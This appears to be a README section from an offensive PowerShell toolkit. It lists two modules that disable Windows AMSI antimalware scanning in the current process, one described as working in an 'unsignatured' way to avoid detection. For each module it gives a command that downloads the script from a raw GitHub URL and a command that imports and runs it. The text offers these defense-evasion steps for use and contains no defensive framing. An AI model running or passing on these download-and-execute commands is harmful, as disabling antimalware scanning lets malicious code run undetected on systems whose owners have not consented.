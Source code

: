 ## Module Name
   <b><i>AMSBP.ps1</i></b>

|Function name|Description|Privileges
|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

```powershell
Import-Module -Name .\AMSBP.ps1 -Force
AMSBP
```

<br />

## Module Name
   <b><i>Disable-Amsi.ps1</i></b>
   
|Cmdlet Name|Description|Privileges
|---|---|---|
|Disable-Amsi|disable AMSI within current process using well<br />known techniques laid out in an unsignatured way</i></b>|User Land|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.ps1" -OutFile "Disable-Amsi.ps1"
```

```powershell      
.\Disable-Amsi.ps1
```   
